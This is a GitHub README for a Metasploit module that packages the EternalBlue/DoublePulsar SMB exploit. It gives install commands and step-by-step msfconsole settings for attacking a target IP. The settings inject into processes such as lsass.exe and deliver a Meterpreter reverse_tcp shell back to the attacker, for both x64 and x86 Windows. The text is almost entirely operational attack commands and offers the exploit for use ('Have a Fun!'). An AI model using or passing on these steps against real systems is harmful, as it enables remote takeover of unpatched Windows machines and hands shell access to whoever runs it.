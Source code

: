 # Eternalblue-Doublepulsar-Metasploit

# How to Install
<pre>
~]# dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
~]# git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
~]# cd Eternalblue-Doublepulsar-Metasploit
~]# cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb

<strong>Note !!!</strong>: Also you may copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb

~]# mkdir -p /root/.wine/drive_c/
</pre>
# How to use
<pre>
~]# service postgresql start
~]# service postgresql enable
~]# msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options
</pre>
<br>
<strong>For Windows x64</strong>
<br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT lsass.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
</pre>
<br>
<strong>For Windows x86</strong>
<br>
<pre>
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or set PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
</pre>
<strong>Have a Fun! :)</strong>
